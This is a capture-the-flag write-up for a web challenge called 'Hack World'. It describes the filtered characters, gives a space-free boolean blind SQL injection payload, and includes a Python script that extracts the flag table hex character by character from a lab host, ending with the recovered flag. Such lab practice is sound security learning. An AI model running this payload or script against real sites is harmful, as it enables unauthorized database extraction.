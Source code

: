




### Hack World

> All You Want Is In Table 'flag' and the column is 'flag'

过滤:`+,#,-,反引号,*,空格,`

`id=2/2`=>`id=1`,注入参数为数字,不需要逃逸引号

`2/sleep(3)` => sleep 3s



`if(substr(hex((select(flag)from(flag))),1,1)>0,9999,1)`

成功回显`Error Occured When Fetch Result.`,失败回显`need girl friend`

```python

import requests
import time
burp0_url = "http://fb5adfb5-4ffa-47bb-a286-32e821c46a6a.node3.buuoj.cn:80/index.php"
burp0_headers = {"Cache-Control": "max-age=0", "Origin": "http://fb5adfb5-4ffa-47bb-a286-32e821c46a6a.node3.buuoj.cn", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3", "Referer": "http://fb5adfb5-4ffa-47bb-a286-32e821c46a6a.node3.buuoj.cn/", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
burp0_data = {"id": "if(substr(hex((select(flag)from(flag))),1,1)=char(a),1111,1)"}
requests.post(burp0_url, headers=burp0_headers, data=burp0_data)

result=""
alnlist="0123456789ABCDEF"
i=len(result)
while True:
    for j in alnlist:
        burp0_data = {"id": "if(substr(hex((select(flag)from(flag))),{},1)=char({}),1111,1)".format(i+1,ord(j))}
        res=requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
        if "Error Occured When Fetch Result." in res.text:
            result+=j
            print(result)
            break
        time.sleep(0.5)
    i+=1


```



flag{f475e0ca-7337-4331-b968-13555bb2d874}

